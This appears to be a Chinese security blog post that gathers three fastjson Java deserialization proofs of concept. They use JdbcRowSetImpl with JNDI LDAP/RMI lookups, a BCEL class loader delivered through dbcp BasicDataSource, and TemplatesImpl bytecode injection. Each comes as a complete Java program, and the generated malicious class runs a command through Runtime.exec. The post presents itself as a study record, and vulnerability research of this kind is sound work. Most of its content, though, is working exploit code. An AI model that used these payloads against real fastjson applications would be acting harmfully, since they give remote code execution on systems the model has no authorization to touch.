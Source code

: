 Title: Java反序列化漏洞学习实践七：fastjson反序列化PoC汇总
Date: 2018-11-26 18:04
Category: 漏洞实践
Tags: Java,反序列化,漏洞
Slug: 
Authors: bit4
Summary: 

### **0x0、说明**

本文是个人学习的记录总结，如有错误烦请[指出](https://github.com/bit4woo/code2sec.com/issues)，谢谢！



本文主要汇总大佬们的fastjson的各种PoC，并进行简单的说明，目的是梳理一下利用思路。

通过对Java反序列化知识的学习，可以大致知道命令执行链由至少2部分组成：

1. 具有代码执行能力的类，我们之前的文章【或[GitHub](https://github.com/bit4woo/code2sec.com/blob/master/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0%E5%AE%9E%E8%B7%B5%E5%85%AD%EF%BC%9A%E7%B1%BB%E7%9A%84%E5%8A%A0%E8%BD%BD%E6%9C%BA%E5%88%B6%E5%92%8C%E6%81%B6%E6%84%8F%E7%B1%BB%E6%9E%84%E9%80%A0.md)】就是为了弄清楚这部分内容；
2. 能够触发代码执行的触发器（即特定的调用代码），比如恶意类EvilClass中，它的静态代码块，构造函数，自定义函数，实现的接口函数都能执行代码，但是他们的触发点各不相同。

静态代码会在类的初始化时触发--Class.forName()

构造函数会在类实例化时触发--newInstance()， new Evil()

自定义函数则在函数调用时触发---m.invoke(Class,para)



再比如，fastjson中漏洞可以利用Class.forName()，而Jackson的漏洞中，触发点则需要newInstance()。

### 0x1、基于com.sun.rowset.JdbcRowSetImpl的PoC1

该PoC需要使用JNDI，需要搭建web服务，RMI服务或LDAP服务，利用相对麻烦。但对于检测fastjson漏洞是否存在，这个却是最简单有效的（结合DNSlog）。利用这个方法，已经成功在公司业务和SRC中发现了接近20个漏洞。



```java
package fastjsonPoCs;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;

/*
 * 基于JNDI的PoC,可用的JNDI服务器有RMI，ldap。
 * 
 */
public class PoC1JNDI {
	public static void main(String[] argv){
		String xx = payload();
	}
	
	public static String payload(){

		//JDK 8u121以后版本需要设置改系统变量
		System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
		//LADP
		String payload1 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Exploit\",\"autoCommit\":true}";
		//RMI
		String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/ref\",\"autoCommit\":true}";

		JSONObject.parseObject(payload2);
		JSON.parse(payload2);
		return payload2;
	}
}

```

以上poc共有三个触发点：静态代码块(Class.forName())、类实例化、和getObjectInstance()方法。



### 0x2、基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC2

这个PoC是漏洞利用时最方便的，它不需要依赖JNDI等服务，所有内容一个请求中搞定。

```java
package fastjsonPoCs;

import evilClass.*;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.classfile.Utility;

/*
 * 基于org.apache.tomcat.dbcp.dbcp.BasicDataSource的PoC，当然也可以说是基于com.sun.org.apache.bcel.internal.util.ClassLoader的PoC
 * 前者的主要作用是触发，也就是包含Class.forName()函数的逻辑(createConnectionFactory函数中)；后者是类加载器，可以解析特定格式的类byte[]。
 * 
 * 
 * org.apache.tomcat.dbcp.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-7.0.65.jar
 * org.apache.tomcat.dbcp.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-dbcp 比如tomcat-dbcp-9.0.13.jar
 * org.apache.commons.dbcp.BasicDataSource ----- https://mvnrepository.com/artifact/commons-dbcp/commons-dbcp
 * org.apache.commons.dbcp2.BasicDataSource ----- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2
 * 
 * 主要参考：https://xz.aliyun.com/t/2272
 */
public class PoC2dbcp {
	public static void main(String[] argv){
		String xx = payload2();
	}
	
	public static String payload2() {
		//payload3:https://xz.aliyun.com/t/2272
		try {
			String payload2 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
//			payload3 = "{{\"@type\":\"com.alibaba.fastjson.JSONObject\",\"c\":{\"@type\":\"org.apache.commons.dbcp2.BasicDataSource\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"},\"driverClassName\":\"xxxxxxxxxx\"}}:\"ddd\"}";
			byte[] bytecode = createEvilClass.create("evil","calc");
			String classname = Utility.encode(bytecode,true);
			//System.out.println(classname);
			classname = "org.apache.log4j.spi$$BCEL$$"+classname;
			payload2 = payload2.replace("xxxxxxxxxx", classname);
			
//			ClassLoader cls = new com.sun.org.apache.bcel.internal.util.ClassLoader();
//			Class.forName(classname, true, cls);
			JSONObject.parseObject(payload2);
			return payload2;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}
```



### 0x3、基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl的PoC3(来自廖新喜)



这个PoC有限制，需要引用程序是如下写法：

```
JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField)
```

在实际的环境中基本遇不到，但其中的思路还是值得学习的。

```java
package fastjsonPoCs;

import org.apache.commons.codec.binary.Base64;
import javassist.ClassPool;
import javassist.CtClass;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/*
 * 该poc来自于廖新喜大佬的文章：http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
 * 基于com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl，构造的恶意类需要是继承了AbstractTranslet的。
 */
public class PoC3TemplatesImpl {
	public static void main(String[] argv){
		String xx = payload3();
	}
	
	public static String payload3() {
		try {
			//http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/
			String payload3 = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\", \"_bytecodes\": [\"xxxxxxxxxx\"], \"_name\": \"1111\", \"_tfactory\": { }, \"_outputProperties\":{ }}";
			byte[] bytecode1 = Gadget.createEvilBytecode("calc");
			String className = TemplatesImpl.class.getName();//com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
			payload3 = payload3.replace("xxxxxxxxxx", Base64.encodeBase64String(bytecode1));
			
			System.out.println(payload3);
			ParserConfig config = new ParserConfig();
			Object obj = JSON.parseObject(payload3, Object.class, config, Feature.SupportNonPublicField);
			
			return payload3;
		} catch (Exception e) {
			e.printStackTrace();
			return null;
		}
	}
}


class Gadget {

    public static class evil extends AbstractTranslet{
    	@Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    }

    static byte[] createEvilBytecode(final String command) throws Exception {
        ClassPool classPool = ClassPool.getDefault();

        // 获取class
        System.out.println("ClassName: " + evil.class.getName());
        final CtClass clazz = classPool.get(evil.class.getName());

        // 插入静态代码块，在代码末尾。
        clazz.makeClassInitializer().insertAfter(
                "java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") + "\");"
        );
        clazz.setName("evilxxx");//类的名称，可以通过它修改。
        
        clazz.writeFile("D:\\");//将生成的.class文件保存到磁盘
        // 获取bytecodes
        final byte[] classBytes = clazz.toBytecode();
        return classBytes;
    }
}

```



### 0x4、参考

[技术专栏 | 深入理解JNDI注入与Java反序列化漏洞利用](https://mp.weixin.qq.com/s?__biz=MjM5NzE1NjA0MQ==&mid=2651198215&idx=1&sn=929dd320ac2b17682e6c7d3f163f6985&chksm=bd2cf6a18a5b7fb758e4000c253adba90de67f72527ae1525a1d6722a09a85a06c8d800a08a7&scene=0#rd)

[defineClass在java反序列化当中的利用](https://xz.aliyun.com/t/2272)

[基于JdbcRowSetImpl（JNDI）的Fastjson RCE PoC构造与分析（也就是不受限于SupportNonPublicField）](<http://xxlegend.com/2017/12/06/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90/>)

[fastjson 远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/)

[vulhub漏洞环境](https://github.com/vulhub/vulhub/tree/master/fastjson/vuln)